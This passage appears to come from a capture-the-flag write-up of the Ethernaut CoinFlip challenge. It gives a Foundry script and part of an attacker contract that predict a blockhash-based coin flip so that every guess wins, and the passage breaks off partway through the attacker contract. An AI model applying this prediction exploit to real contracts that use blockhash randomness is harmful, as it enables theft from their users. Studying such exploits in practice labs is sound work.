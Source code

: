 
It doesn’t work because block.number doesn’t change between executionn of the loop.


[link_preview](https://github.com/foundry-rs/foundry/issues/5840)


It seems that theire is on way to do this so let’s go by hand for now…


Here is the forge script:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_03");
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        vm.startBroadcast(deployerPrivateKey);
        CoinFlip instance = CoinFlip(addr);

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        instance.flip(side);
        console.logUint(instance.consecutiveWins());


        vm.stopBroadcast();
    }
}
```


Actually this is too complecated. So let’s build a contract that will do th attack for us with check in it so that we are sure to get a valid result. 


here is my attacker contract:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipTarget;
```